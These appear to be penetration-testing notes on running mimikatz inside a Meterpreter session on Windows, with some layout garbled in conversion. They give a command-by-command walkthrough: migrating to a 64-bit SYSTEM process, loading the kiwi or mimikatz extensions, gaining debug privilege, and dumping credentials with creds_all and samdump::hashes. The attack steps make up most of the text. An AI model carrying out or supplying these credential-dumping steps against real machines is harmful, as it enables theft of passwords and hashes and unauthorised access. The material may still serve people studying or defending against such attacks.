



mimikatz (meterpreter)
PREREQUISITE:
• SYSTEM privileges
Site:
https://github.com/gentilkiwi/mimikatzmimikatz(with a meterpreter shell or the standalone
.exe) created Benjamin Delpy (
@gentilkiwi)
Mimikatz work very similar to hashdump, search also for cleartext passwords
Mimikatz pulls authentication information from target Windows machines by scouring the memory of the LSASS process, searching for hashes and even cleartext passwords.
Originally released as a separate executable (mimikatz.exe) with an associated DLL, the tool has been adapted into the Metasploit framework as a Meterpreter module, extending the functionality of the Meterpreter. The latest version of mimikatz is called Kiwi
In order to get the best out of mimikatz, it is important to have the current meterpreter session running on a 64-bit process
1. process on which meterpreter is running is 32 or 64 bit
◇
 nothing to do because meterpreter is already running on a 64bit process
◇
 Because we are running on a 32 bit process, we can move to a 64 bit process to have the best performance from mimikatz
1.1)
List of 64 bit processes ▪
meterpreter > ps -A x86_64
-A → filter for architecture (we want to list 64 bit processes so x86_64)
▪
meterpreter > ps -A x86_64 -s
-s → we need to move to a process with the same privileges of the current session. So if we are running on SYSTEM privileges we can filter for only system processes
1.2)
Migrate to one of the process listed meterpreter > migrate [PID]
meterpreter > getuid
meterpreter > sysinfo
2. We can now load mimikatz on meterpreter, to do that we have 2 options (use
mimikatz 1.0 or
mimikatz 2.0 extensions)
◇ Meterpreter extension for
mimikatz 2.0 →
kiwi (developed by Oliver Reeves aka
@TheColonial)
meterpreter > load kiwi
meterpreter > help #commands available including the ones of kiwi
meterpreter > kiwi_cmd "privilege::debug" #elevate privilege to have debug rights
meterpreter > kiwi_cmd "log" #mimikatz.log will be saved in the actual folder
#of the target machine
#WARNING: we are loving traces!
Now we can use the commands above, for example:
meterpreter > creds_all #retrieve credentials from different services and protocols
we can also use the commands not directly implemented in kiwi extension of mimikatz (here https://github.com/gentilkiwi/mimikatz/wiki under the subchapter Modules)
WARNING:
kiwi_cmd on meterpreter does not correctly handle commands with multiple arguments but it handle them correctly on the normal
mimikatz for Windows meterpreter > kiwi_cmd "<command>"
*
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061 means that the required privilege is not held by the client (mostly you're not an administrator)
 ◇ Meterpreter extension for
mimikatz 1.0 →
mimikatz (developed by Ben Campbell aka
@MeatBalls__)
meterpreter > load mimikatz
meterpreter > help
meterpreter > mimikatz_command -f "privilege::debug" #elevate privilege to have debug rights
Now we can use the commands above, for example:
*To know more about Digest Authentication(
https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778868(v=ws.10))
we can also use the commands not directly implemented in mimikatz extension of mimikatz (here https://github.com/gentilkiwi/mimikatz/wiki under the subchapter Modules)
WARNING: mimikatz on meterpreter does not correctly handle commands with multiple arguments but it handle them correctly on the normal
mimikatz for Windows meterpreter > mimikatz_command -f *:: #modules available on mimikatz 1.0
meterpreter > mimikatz_command -f <module>:: #query options for the module choosen
meterpreter > mimikatz_command -f samdump::
meterpreter > mimikatz_command -f "samdump::hashes"